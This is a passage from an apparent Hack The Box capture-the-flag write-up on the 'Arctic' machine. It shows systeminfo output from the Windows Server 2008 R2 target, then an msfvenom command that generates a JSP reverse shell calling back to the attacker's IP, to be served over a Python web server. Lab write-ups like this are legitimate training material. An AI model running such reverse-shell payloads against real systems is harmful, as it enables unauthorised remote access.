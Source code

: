 
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 §£
System Boot Time:          7/3/2021, 10:14:05 §£
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 267 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.147 MB
Virtual Memory: In Use:    900 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

```

We could use this webshell to try and capture the flag of the user, but it would take a long time since ColdFusion is very slow.  Instead, let's try a reverse shell instead of a webshell.  After viewing the Metasploit ruby script that we could call, I noticed Metasploit is just doing a JSP shell.  We can generate that with msfvenom.

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.41 LPORT=443 -f raw > shell.jsp
```

Fire up the Python server again and repeat the above process.  This time we need another listener port when executing so we get the shell.
